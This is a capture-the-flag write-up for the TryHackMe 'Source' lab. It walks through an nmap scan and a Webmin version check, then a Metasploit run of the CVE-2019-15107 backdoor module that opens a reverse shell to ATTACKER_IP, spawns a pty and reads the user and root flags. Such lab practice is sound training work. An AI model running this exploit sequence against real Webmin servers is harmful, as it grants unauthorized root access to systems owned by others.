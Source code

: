 # [Source](https://tryhackme.com/room/source)

## Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

# Embark

## Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

### user.txt

1. Start by performing initial network enumeration to identify open ports and running services on the target system

```bash
nmap <TARGET_IP>
```

<img width="722" height="270" alt="SCREEN01" src="https://github.com/user-attachments/assets/98aaff5f-3886-4e1a-97e7-c84c38648eac" />

2. Examine the Webmin service to identify the specific version running

```bash
curl -k -I https://<TARGET_IP>:10000/
```

<img width="721" height="219" alt="SCREEN02" src="https://github.com/user-attachments/assets/0154ac42-7891-47c6-9bcd-46e70cdbedd3" />

3. Based on the enumeration results, research known vulnerabilities for the identified Webmin version. The CVE-2019-15107 backdoor vulnerability affects Webmin versions 1.882 through 1.921. Launch Metasploit and configure the exploit module. Once the exploit succeeds, navigate to the user directory and capture the first flag

```bash
msfconsole
search webmin
use exploit/linux/http/webmin_backdoor
show options
set LHOST <ATTACKER_IP>
set RHOSTS <TARGET_IP>
set RPORT 10000
set SSL true
exploit
```

<img width="722" height="434" alt="SCREEN03" src="https://github.com/user-attachments/assets/b86a3eca-2916-4dba-a2d8-a78c8f722289" />

```
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/dark/user.txt
```

<img width="718" height="232" alt="SCREEN04" src="https://github.com/user-attachments/assets/a9fd046e-ea4a-4e9f-b638-2f6f574688d5" />

---

### root.txt

1. Access the root directory and retrieve the final flag

```bash
cat /root/root.txt
```

<img width="717" height="144" alt="SCREEN05" src="https://github.com/user-attachments/assets/209bb763-b613-47a4-a035-30b4ffeb9bb6" />
